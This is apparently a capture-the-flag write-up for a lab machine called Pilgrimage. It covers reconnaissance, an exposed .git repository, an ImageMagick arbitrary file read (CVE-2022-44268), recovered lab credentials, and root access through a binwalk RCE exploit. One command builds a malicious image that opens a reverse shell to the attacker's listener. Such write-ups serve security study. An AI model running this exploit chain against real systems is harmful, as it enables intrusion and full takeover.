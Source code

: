 # Pilgrimage

### Reconnaissance

- port 22 SSH OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
- port 80 HTTP nginx 1.18.0

gobuster found directories all return 403

/assets/
/shrunk/ -> shrunk files stored here
/tmp/
/vendor/

File upload, php backend

Got stuck, used [this walkthrough](https://medium.com/@babayaga00897/pilgrimage-htb-writeup-ae8242270434) need to use -sVC with nmap scan, missing things with -A

There is a .git directory which can de downloaded with [git-dumper](https://github.com/arthaud/git-dumper)

### Exploitation

Inside we find the image shrinker, magick, which is vulnerable to an arbitrary file read 

https://www.metabaseq.com/imagemagick-zero-days/
https://github.com/voidz0r/CVE-2022-44268

This allows us to access the /etc/passwd file and the database mentioned in the .git directory, giving us 
emily's credentials

emily:abigchonkyboi123

### Privilege Escalation

/usr/bin/malwarescan.sh running as root, we have read access. It uses binwalk to analyze files and delete any 
unwanted file types (binaries) and the version being used is vulnerable to RCE which grants us root access.

Use exploit-db [binwalk exploit](https://www.exploit-db.com/exploits/51249) to generate a malicious image

`exploit.py image.png 10.10.10.10 1337`

Then start a listener and upload the exploit image to /var/www/pilgrimage.htb/shrunk/ and wait for a 
connection, granting root access
